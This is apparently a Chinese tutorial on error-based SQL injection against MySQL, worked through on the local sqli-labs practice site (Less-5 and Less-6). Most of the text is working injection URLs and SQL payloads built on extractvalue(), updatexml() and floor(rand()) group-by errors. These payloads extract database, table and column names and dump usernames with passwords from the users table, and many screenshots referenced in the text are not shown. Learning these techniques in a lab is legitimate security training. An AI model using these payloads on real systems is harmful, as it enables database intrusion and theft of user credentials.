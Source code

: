### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```

![1686741574661](image/1.3报错注入/1686741574661.png)

![1686741598115](image/1.3报错注入/1686741598115.png)

![1686744596624](image/1.3报错注入/1686744596624.png)

![1686744627371](image/1.3报错注入/1686744627371.png)

![1686744640082](image/1.3报错注入/1686744640082.png)


#### **利用extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

![1686741645198](image/1.3报错注入/1686741645198.png)

![1686741655402](image/1.3报错注入/1686741655402.png)

** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```

![1686741758932](image/1.3报错注入/1686741758932.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```

![1686741750543](image/1.3报错注入/1686741750543.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```

![1686741729712](image/1.3报错注入/1686741729712.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示32个字符，所以使用substring函数继续显示。
```

![1686741738602](image/1.3报错注入/1686741738602.png)

#### **updatexml函数**

![1686744438757](image/1.3报错注入/1686744438757.png)

![1686743807264](image/1.3报错注入/1686743807264.png)

![1686744903423](image/1.3报错注入/1686744903423.png)

**database()				数据库库名
group_concat()			把查询到的结果合并到一行显示
concat()					合并字符
优先执行括号()里的命令**

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),3)--+
//查看该库内的表名
```

![1686745406727](image/1.3报错注入/1686745406727.png)

![1686745343388](image/1.3报错注入/1686745343388.png)

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select substr(group_concat(username,password),1,28) from users)),3)--+
//查询列内的内容     substr与substring效果一致
```


#### floor报错

![1686746162473](image/1.3报错注入/1686746162473.png)


![1686746510907](image/1.3报错注入/1686746510907.png)

```
select floor(rand()*2) from users;
//有多少用户就计算多少次
```

![1686746803620](image/1.3报错注入/1686746803620.png)

```
select concat_ws('-',(select database()),floor(rand()*2)) from users;

```

![1686747331459](image/1.3报错注入/1686747331459.png)

![1686747572247](image/1.3报错注入/1686747572247.png)


```
select count(*),concat_ws('~',(select database()),floor(rand(0)*2)) as ben from users group by ben;
```



![1686747551142](image/1.3报错注入/1686747551142.png)

![1686747994232](image/1.3报错注入/1686747994232.png)

![1686748772714](image/1.3报错注入/1686748772714.png)

![1686752285015](image/1.3报错注入/1686752285015.png)


```
http://localhost/sqli_labs/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select version()),floor(rand(0)*2)) as x from information_schema.tables group by x --+
//
```


![1686752433539](image/1.3报错注入/1686752433539.png)

```
http://localhost/sqli_labs/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select concat('~',username,':',password) from users limit 0,1),floor(rand(0)*2)) as x from information_schema.tables group by x --+
//控制内容输出
```

